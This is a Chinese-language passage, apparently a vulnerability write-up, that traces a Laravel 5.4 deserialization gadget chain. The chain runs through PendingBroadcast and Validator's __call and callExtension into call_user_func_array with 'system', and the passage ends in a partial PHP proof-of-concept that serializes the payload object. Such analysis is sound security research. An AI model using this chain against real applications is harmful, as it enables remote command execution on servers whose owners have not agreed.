 ```
laravel5-4\vendor\laravel\framework\src\Illuminate\Broadcasting\PendingBroadcast.php
```

去找到了另外一个__call方法

```
laravel5-4\vendor\laravel\framework\src\Illuminate\Validation\Validator.php
```

![image-20210809135644524](images/22.png)

看看$rule的值是怎么来的

substr($method,offset:8)，offset和start作用差不多

这是从地8个开始截取,由于这里的$method的值是dispatch，dispatch只有8个字符所以substr这里其实是为空的

这里调用了一个静态函数,ctrl+b进到str.php中

![image-20210809140054642](images/23.png)

$value的值就为空了

所以这里其实是不会进入第一个if循环的

```
ctype_lower做小写检测
```

这里进入了第二个if循环

但是并没有对value的值造成任何影响,返回值仍然为空

![image-20210809140637204](images/24.png)

那这里`$this->extensions[$rule]`是可控的,能进入if循环,调用callExtension()

跟进callExtension()

![image-20210809140733521](images/25.png)

这里$callback是可控的,那就可以进入if循环,调用call_user_fun_array()

```
$parameters是进入__call方法的那个值，已经被处理成了数组,这里只要$callback='system'
$parameters='whoami'即可
```

$this->extensions=[' '='system']

poc如下

```
<?php
namespace Illuminate\Broadcasting
{
    use Illuminate\Validation\Validator;
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct()
        {
            $this->events=new Validator();
            $this->event='whoami';
        }
    }
    echo urlencode(serialize(new PendingBroadcast()));
}
namespace Illuminate\Validation
{
    class Validator
```
